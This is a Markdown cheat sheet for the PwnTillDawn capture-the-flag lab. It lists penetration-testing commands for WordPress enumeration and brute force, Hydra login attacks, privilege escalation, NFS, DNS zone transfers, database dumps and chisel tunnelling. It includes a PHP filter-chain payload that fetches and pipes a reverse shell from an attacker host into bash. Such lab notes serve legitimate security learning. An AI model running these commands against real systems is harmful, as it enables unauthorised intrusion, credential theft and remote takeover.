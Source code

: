 
# Pwntilldawn FULL Mindmap

## Steganography
- [Aperisolve](https://www.aperisolve.com/)
- [Stereogram Solver](https://piellardj.github.io/stereogram-solver/)
- **Steghide**: `steghide extract -sf screen.jpeg`
- **Depixelize**
    - **Depix**: `python3 depix.py -p pixel_image -s images/searchimages/image.png`
    - **Unredactor**

## Web Exploitation
- **Wordpress**
    - User enumeration: `wpscan --url url --enumerate u`
    - Check vulnerable templates/plugins: `wpscan --url url --enumerate vp,vt`
    - Bruteforce: `wpscan --url url_wordpress --passwords wordlist`
    - Example: `wpscan --url https://www.hackinprovence.fr/ -e u`
- **PHP Filters**
    - Code injection: 
      ```python
      python3 script.py --chain '<?= `wget attack_ip/revshell|bash`?>'
      ```
      - [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
- **Enumeration**
    - **Path Enumeration**
        - **Dirsearch**
        - **FeroxBuster**:
            - Basic scan: `feroxbuster -u url -w ~/Desktop/SecLists-master/Discovery/Web-Content/common.txt --filter-status 404`
            - Advanced scan: `feroxbuster -u http://example.com -w wordlist -x php,html,txt -v -o output.txt --filter-status 404`
- **Bruteforce Forms**
    - **Hydra**:
      ```bash
      hydra -l admin -P SecLists-master/rockyou.txt 10.150.150.38 -s 30609 -t 20 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
      ```

## Privilege Escalation
- **Metasploit**
    - `msfconsole`
        - Local exploit suggester: `multi/recon/local_exploit_suggester`
    - Upgrade session: `sessions -u <id>`
- **Searchsploit**
    - Usage: `searchsploit xxxx`
    - Extract exploit: `searchsploit -m chemin`
- **Linpeas**
    - Hosting HTTP server: `sudo python3 -m http.server port` (attacker) and then wget on victim
- **SUID**: `find / -perm -u=s -type f 2>/dev/null`
- **Symbolic Link Exploit**: `ln -s /root /home/michael/important_files/root_backup`
- **LXC/LXD Privilege Escalation**
    - [LXC/LXD Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
- **Windows Escalation**
    - **Shell upgrade**:
      - `sessions -u id`
      - Migrate process: `ps --> migrate pid`
    - **Metasploit**:
      - Local exploit suggester: `multi/recon/local_exploit_suggester`

## Finding Flags
- **Linux**
    - `find ./* | grep FLAG3`
    - `find / -name FLAG6.txt 2>/dev/null`
    - `find / -type f -name 'FLAG[0-9][0-9]' 2>/dev/null`
    - `find / -type f -name 'FLAG[0-9].txt' 2>/dev/null`
- **Windows**
    - `@for /r C:\ %i in (FLAG??.txt) do @echo %i && @type "%i"`

## Miscellaneous
- Redirect errors to file: `2>fichier` then use `cat fichier`
- **Dumb Shell Upgrade**:
    - Python: `python -c 'import pty; pty.spawn("/bin/bash")'`
    - Python 3: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- **Netstat**: `netstat -antup`

## Protocols
- **FTP**
    - Verify anonymous login
- **NFS**
    - Show mounts: `showmount -e IP`
    - RPC info: `rpcinfo IP`
    - Mount: `sudo mount -t nfs ip:/remote /local`
    - Unmount: `sudo umount 10.150.150.59:/nfsroot`
- **SSH**
    - Test connection to check banner
    - Connect with private key: `ssh -i id_rsa user@ip`
- **DNS**
    - AXFR: `dig @mortysserver.com mortysserver.com axfr`
    - Edit `/etc/hosts` if needed:
      ```plaintext
      10.150.150.57 rickscontrolpanel.mortysserver.com
      ```
- **MySQL**
    - Connect: `mysql -h localhost -u sql_user -p`
    - Dump all databases: `mysqldump -u root -p --all-databases > alldb.sql`

## NMAP
- Basic scan: `nmap -sV -sC -T5 -p- ip`
- SYN scan: `sudo nmap -sF -p1-100 -T4`

## Pivoting / Tunneling
- **Check for services listening on localhost**: `netstat -antup`
- **Tunneling & Port Forwarding**
    - If SSH access is available: `sshuttle -r user@ip -N`
    - Web service on localhost:
      - Victim: `./chisel client ip_host:7777 R:8080:127.0.0.1:8080`
      - Host: `chisel server -port 7777 --reverse`

